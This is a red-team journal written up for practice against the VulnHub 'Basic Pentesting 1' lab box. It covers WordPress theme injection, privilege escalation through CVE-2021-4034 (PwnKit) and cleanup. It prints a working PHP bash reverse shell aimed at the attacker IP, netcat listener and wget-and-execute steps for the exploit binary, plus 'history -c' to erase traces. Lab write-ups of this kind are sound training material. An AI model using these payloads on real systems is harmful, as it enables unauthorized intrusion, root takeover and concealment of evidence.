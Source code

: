 
## Red Team Journal – June 15, 2025

### Engagement Overview
**Target:** Basic Pentesting 1 (VulnHub)  
**Box IP:** 192.168.56.102  
**Attacker IP:** 192.168.56.10  
**Methodology:** Web enumeration → WordPress admin access → reverse shell → privesc via CVE-2021-4034 (PwnKit)  

---

### Objectives
- [x] Regain WordPress admin access
- [x] Inject PHP reverse shell via theme
- [x] Get reverse shell to Kali
- [x] Upgrade to interactive TTY
- [x] Enumerate for privilege escalation vectors
- [x] Exploit PwnKit to gain root
- [x] Clean up artifacts

---

### Initial Foothold

**Method:** PHP Reverse Shell via `404.php` in theme
  
**Payload used:**

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'"); ?>

Triggered with:

curl "http://vtcsec/secret/wp-content/themes/twentyseventeen/404.php"

**Listener setup on Kali:**

nc -lvnp 4444

Result:
Gained shell as www-data.

**Enumeration Highlights**

uname -a
cat /etc/os-release
ls /home
sudo -l
find / -perm -4000 -type f 2>/dev/null

**Key Findings:**

    OS: Ubuntu 16.04.3 LTS

    Kernel: 4.10.0-28-generic

    Local user: marlinspike

    No sudo access from www-data

    SUID binary found: /usr/bin/pkexec (used by PwnKit)

**Privilege Escalation**

Exploit: CVE-2021-4034 (PwnKit)
Approach: Static binary hosted on attacker machine

On Kali:

	python3 -m http.server 8000

On Target:

	cd /tmp
	wget http://192.168.56.10:8000/PwnKit -O PwnKit
	chmod +x PwnKit
	./PwnKit

Result:

	root@vtcsec:/tmp# whoami
	root

**Cleanup Actions**

	rm /tmp/PwnKit
	history -c

Root shell obtained.
No persistence or root flag grabbed — purpose was shell lifecycle practice.


**Tools Utilized**

    nmap, gobuster, wpscan

    curl, netcat, wget, python3

    Metasploit (for ProFTPD attempt)

    Static PwnKit binary

**Key Takeaways**

   * Always check /wp-login.php and XML-RPC for exposed WordPress logins
   * Use encoded curl payloads to bypass broken command injection
   * Static precompiled binaries save time vs. build errors (GLIBC mismatch)
   * Do not use fg without setting proper terminal (stty raw -echo)
    After shell access, use enumeration before brute forcing — privilege escalation often lives in defaults

<!--stackedit_data:
eyJoaXN0b3J5IjpbMjA4MTY1MDEwOCwtMjMxNjIwMDg0LC0xNz
IwMTI4ODg1XX0=
-->